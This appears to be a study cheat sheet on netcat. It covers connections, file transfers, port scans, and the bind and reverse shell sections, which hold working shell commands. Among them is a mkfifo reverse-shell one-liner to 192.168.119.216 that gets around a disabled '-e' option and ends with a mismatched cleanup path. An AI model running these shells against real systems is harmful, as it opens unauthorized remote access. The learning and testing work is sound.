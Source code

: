 ## netcat

A simple “utility which reads and writes data across network connections, using TCP or UDP protocols.  

```bash
netcat [OPTIONS] host [REMOTE_PORT]
# Options
-n		# Numeric-only IP's
-v		# Verbose output, use twice for more verbose
-l		# listen (Server mode)
-p		# Used with -l to specify port
```

### Basic Connection

```bash
# Connect to remote end on port 80
nc -nv 1.1.1.1 80

# Create server listening on port 4444
nc -nlvp 4444
```

### File Transfers

```bash
# Receive data from netcat and write to file
# Note that either client or server can receive/send, the important thing is the direction of the redirects
# Note that you may have to use CTRL+C to kill the transfer if it hangs when its done.  There's no indicator of completion, so you have to guess.
nc -nlvp 4444 > outfile

# Send data through netcat
nc -nv 1.1.1.1 4444 < infile
```

### Bind Shell

To create a bind shell, netcat will execute a command shell and all stdin, stdout, stderr streams through netcat instead of from/to the local machine.  In a normal bind shell, the following are true:

- Command shell is received from the server.  
- The server end executes a shell on client connect.  
- Users are able to interact with the shell, much like SSH.  

```bash
# ---TARGET SIDE
# Create a server & execute shell
netcat -nlvp 4444 -e cmd.exe
# Options
-e COMMAND		# Tells netcat to execute COMMAND once someone connects and redirects all STDin/out/err to the port.

# ---ATTACKER SIDE
netcat -nv 1.1.1.1 4444
```

### Reverse Shell

A reverse shell is a bind shell in the opposite direction.  The following are true for a reverse shell:

- A command shell is sent from the client to the server.  
- The client end executes the shell once connect to the server.  
- The server end interacts with the shell running on the client, like SSH in reverse.  
- Useful for accessing the shell of a host behind a firewall.   

```bash
# ---ATTACKER SIDE
# Create a server
netcat -nlvp 4444

# ---TARGET SIDE
# Connect & execute shell
netcat -nv 1.1.1.1 4444 -e /bin/bash
```

If netcat's `-e` is disabled, you can use this command to get around it:

```bash
# This basically creates a circular loop between a FIFO file and the netcat session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.119.216 8001 >/tmp/f; rm /tmp/p
```

### Port Scanning

#### TCP Port Scan

```bash
nc -nvv -w 1 -z 1.1.1.1 3388-3390

# Options
-vv 	# Be extra verbose
-w 1	# wait 1 second for timeout
-z 		# Zero-I/O mode (used for scanning)
```

#### UDP Port Scan

```bash
nc -nvz -w 1 -u 1.1.1.1 160-162

# Options
-u		# UDP mode
```



